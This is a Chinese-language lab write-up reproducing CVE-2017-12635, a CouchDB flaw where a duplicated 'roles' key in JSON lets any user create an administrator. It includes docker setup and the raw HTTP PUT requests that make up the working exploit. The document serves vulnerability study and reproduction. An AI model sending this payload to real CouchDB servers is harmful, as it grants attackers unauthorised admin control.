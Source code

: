 ```yaml
---
title: （CVE-2017-12635）Couchdb 垂直权限绕过漏洞
id: zhfly2856
---
```


# （CVE-2017-12635）Couchdb 垂直权限绕过漏洞

## 一、漏洞简介

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

## 二、漏洞影响

小于 1.7.0 以及 小于 2.1.1

## 三、复现过程

### 环境搭建

```
docker-compose build
docker-compose up -d 
```

环境启动后，访问`http://www.0-sec.org:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

### 漏洞复现

首先，发送如下数据包：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: www.0-sec.org:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90 `{

“type”: “user”,

“name”: “vulhub”,

“roles”: ["_admin"],

“password”: “vulhub”

}` 
```

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色：

![image](../img/544978315043e465623a152a9f9c80dd.png)

发送包含两个roles的数据包，即可绕过限制：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: www.0-sec.org:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108 `{

“type”: “user”,

“name”: “vulhub”,

“roles”: ["_admin"],

“roles”: [],

“password”: “vulhub”

}` 
```

成功创建管理员，账户密码均为`vulhub`：

![image](../img/f0aa4848a7311e290d7974a09a818c80.png)

再次访问`http://www.0-sec.org:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

![image](../img/ef6de98482ce4e71c86abc6b94fc1100.png)

## 参考链接

> https://vulhub.org/#/environments/couchdb/CVE-2017-12635/